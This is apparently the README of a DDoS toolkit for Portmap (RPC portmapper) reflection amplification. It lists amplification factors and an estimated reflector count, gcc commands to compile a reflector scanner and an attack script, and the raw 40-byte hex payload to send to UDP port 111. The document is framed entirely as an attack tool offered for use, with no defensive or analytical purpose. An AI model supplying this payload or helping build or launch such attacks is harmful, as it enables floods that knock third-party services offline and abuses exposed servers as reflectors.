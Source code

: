 # Portmap
Portmap amplification dev

This is for Portmap amplification.

Average amplification rate: 7x - 28x (maximum of 200x has been observed)

Estimated amount of reflectors: 4 million

http://blog.level3.com/security/a-new-ddos-reflection-attack-portmapper-an-early-warning-to-the-industry/

Compile scanner: gcc PortmapScan.c -pthread -o PortmapScan

Compile Attack script: gcc Portmap.c -pthread -o Portmap

Payload: \x65\x72\x0A\x37\x00\x00\x00\x00\x00\x00\x00\x02\x00\x01\x86\xA0\x00\x00\x00\x02\x00\x00\x00\x04\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00

Port: 111

Payload Size: 40
